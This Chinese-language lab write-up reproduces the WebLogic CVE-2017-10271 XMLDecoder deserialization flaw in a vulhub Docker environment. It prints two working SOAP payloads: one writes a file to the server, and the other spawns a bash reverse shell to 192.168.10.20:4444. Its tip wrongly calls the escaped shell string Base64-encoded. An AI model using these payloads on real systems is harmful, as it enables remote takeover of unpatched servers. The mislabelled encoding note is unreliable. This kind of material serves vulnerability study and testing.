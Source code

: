 # CVE-2017-10271 Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞

## Description

Weblogic 的 WLS Security 组件对外提供 webservice 服务，其中使用了 XMLDecoder 来解析用户传入的 XML 数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。CVE-2017-10271 是 wls wsat 模块的 RCE 漏洞，这个漏洞的核心就是 XMLDecoder 的反序列化漏洞，关于 XMLDecoder 反序列化的漏洞在2013年就被广泛传播，这次的漏洞是由于官方修复不完善导致被绕过。

## Explanation of exploit; PoC

### 运行靶场环境

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

访问 `http://your-ip:7001/wls-wsat/CoordinatorPortType`，看到如下页面即为靶场正常运行。

![](images/cve-2017-10271-1.png)

### 漏洞复现

#### 上传任意文件

访问 `http://your-ip:7001/wls-wsat/CoordinatorPortType`，并通过 BurpSuite 抓包，修改 `Content-Type` 为 `text/xml`，修改 `GET` 为 `POST`，请求体为如下 POC：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter">
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>TEST</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
```

![](images/cve-2017-10271-2.png)

发送请求后会在目标机器上创建一个 `test.txt` 文件，文件内容为 `TEST`。

访问 `http://your-ip:7001/wls-wsat/test.txt`，即可看到文件内容。

![](images/cve-2017-10271-3.png)

#### 反弹 Shell

在 kali 上监听 4444 端口

访问 `http://your-ip:7001/wls-wsat/CoordinatorPortType`，并通过 BurpSuite 抓包，修改 `Content-Type` 为 `text/xml`，修改 `GET` 为 `POST`，请求体为如下 POC：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
	<soapenv:Header>
		<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
			<java version="1.4.0" class="java.beans.XMLDecoder">
				<void class="java.lang.ProcessBuilder">
				<array class="java.lang.String" length="3">
					<void index="0">
						<string>/bin/bash</string>
					</void>
					<void index="1">
						<string>-c</string>
					</void>
					<void index="2">
						<string>bash -i &gt;&amp; /dev/tcp/192.168.10.20/4444 0&gt;&amp;1</string>
					</void>
				</array>
				<void method="start"/></void>
			</java>
		</work:WorkContext>
	</soapenv:Header>
	<soapenv:Body/>
</soapenv:Envelope>
```

???+ tip "编码问题"

	`bash -i &gt;&amp; /dev/tcp/192.168.10.20/4444 0&gt;&amp;1` 该反弹 Shell 语句为 Base64 编码后的内容。

![](images/cve-2017-10271-4.png)

请求发送后，kali 上会出现一个反弹 Shell。

![](images/cve-2017-10271-5.png)

## References

- [vulhub](https://vulhub.org/#/environments/weblogic/CVE-2017-10271/)
- [EXPLOIT-DB](https://www.exploit-db.com/exploits/43458)
- [Weblogic XMLDecoder RCE分析](https://paper.seebug.org/487/)
- [WebLogic WLS-WebServices组件反序列化漏洞分析](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices%E7%BB%84%E4%BB%B6%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.md)